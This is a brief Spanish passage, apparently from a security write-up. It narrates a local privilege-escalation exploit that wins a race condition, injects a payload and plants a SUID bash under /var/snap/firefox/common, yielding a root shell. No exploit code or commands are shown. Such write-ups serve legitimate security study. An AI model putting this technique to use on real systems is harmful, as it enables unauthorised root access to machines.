> Como podemos observar, el exploit consigue ganar la condición de carrera, inyectar el payload y crear una bash con el bit `SUID` activado en `/var/snap/firefox/common/bash`.
>
> Tendremos que esperar un tiempo, ya que el exploit necesita que se elimine el directorio `.snap` creado durante el proceso. En una instalación estándar, esta espera puede ser considerable.

> Una vez finalizada la ejecución, conseguimos una shell como `root`.

